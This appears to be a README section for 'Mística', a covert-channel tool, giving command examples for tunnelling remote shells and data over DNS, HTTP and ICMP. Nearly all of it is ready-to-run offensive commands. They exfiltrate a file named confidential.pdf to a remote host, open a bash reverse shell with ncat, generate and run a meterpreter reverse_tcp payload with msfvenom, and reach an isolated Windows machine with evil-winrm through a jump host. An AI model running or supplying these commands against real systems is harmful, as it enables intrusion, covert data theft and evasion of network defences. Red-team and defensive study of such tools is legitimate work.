 ### Shell and IO

You can get remote command execution using mística over a custom channel, by combining `io` and `shell` modules. Examples:

- Executing commands on client system over DNS using TXT query.
    - Mística Server: `sudo ./ms.py -m io:dns -k "rc4testkey" -s "--hostname x.x.x.x  --port 53"`
    - Mística Client: `./mc.py -m shell:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53"`

- Executing commands on server system over HTTP using GET requests:
    - Mística Server: `./ms.py -m shell:http -k "rc4testkey" -s "--hostname x.x.x.x  --port 8000"`
    - Mística Client: `./mc.py -m io:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000"`

- Executing commands on client system over ICMP:
    - Mística Server: `./ms.py -m io:icmp -k "rc4testkey" -s "--iface eth0"`
    - Mística Client: `./mc.py -m shell:icmp -k "rc4testkey" -w "--hostname x.x.x.x"`

- Exfiltrating files via HTTP using the IO module and redirect operators:
    - Mística Server: `./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k "rc4testkey" -vv > confidential.pdf`
    - Mística Client (**important to run from the cmd**): `type confidential.pdf | E:\Mistica\WPy64-3741\python-3.7.4.amd64\python.exe .\mc.py -m io:http -w "--hostname x.x.x.x --port 80" -k "rc4testkey" -vv`

### Port forwarding with tcpconnect and tcplisten

- Remote port forwarding (seen from server) over HTTP. Address `127.0.0.1:4444` on the client will be forwarded to address `127.0.0.1:5555` on the server. There must be already something listening on `5555`.
    - Mística Server: `./ms.py -m tcpconnect:http -k "rc4testkey" -s "--hostname x.x.x.x  --port 8000" -o "--address 127.0.0.1 --port 5555"`
    - Mística Client: `./mc.py -m tcplisten:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 4444"`
- Local port forwarding (seen from server) over DNS. Address `127.0.0.1:4444` on the server will be forwarded to address `127.0.0.1:5555` on the client. There must be already something listening on `5555`.
    - Mística Server: `sudo ./ms.py -m tcplisten:dns -k "rc4testkey" -s "--hostname x.x.x.x  --port 53" -o "--address 127.0.0.1 --port 4444"`
    - Mística Client: `./mc.py -m tcpconnect:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 5555"`
- HTTP reverse shell using netcat on linux client.
    - Netcat Listener (on server): `nc -nlvp 5555`
    - Mística Server: `./ms.py -m tcpconnect:http -k "rc4testkey" -s "--hostname x.x.x.x  --port 8000" -o "--address 127.0.0.1 --port 5555"`
    - Mística Client: `./mc.py -m tcplisten:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 4444"`
    - Netcat Shell (on linux client): `ncat -nve /bin/bash 127.0.0.1 4444`
- Running `meterpreter_reverse_tcp` (linux) over DNS using port forwarding. Payload generated with `msfvenom -p linux/x64/meterpreter_reverse_tcp LPORT=4444 LHOST=127.0.0.1 -f elf -o meterpreter_reverse_tcp_localhost_4444.bin`
    - Run `msfconsole` on server and launch handler with: `handler -p linux/x64/meterpreter_reverse_tcp -H 127.0.0.1 -P 5555`
    - Mística Server: `sudo ./ms.py -m tcpconnect:dns -k "rc4testkey" -s "--hostname x.x.x.x  --port 53" -o "--address 127.0.0.1 --port 5555"`
    - Mística Client: `./mc.py -m tcplisten:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 4444"`
    - Run meterpreter on client: `./meterpreter_reverse_tcp_localhost_4444.bin`
- [EvilWinrm](https://github.com/Hackplayers/evil-winrm) over ICMP using a jumping machine to access an isolated machine.
    - Mistica Server: `./ms.py -m tcplisten:icmp -s "--iface eth0" -k "rc4testkey" -o "--address 127.0.0.1 --port 5555 --persist" -vv`
    - Mistica Client: `python.exe .\mc.py -m tcpconnect:icmp -w "--hostname x.x.x.x" -k "rc4testkey" -o "--address x.x.x.x --port 5985 --persist" -vv`
    - EvilWinrm Console (on C2 machine): `evil-winrm -u Administrador -i 127.0.0.1 -P 5555`
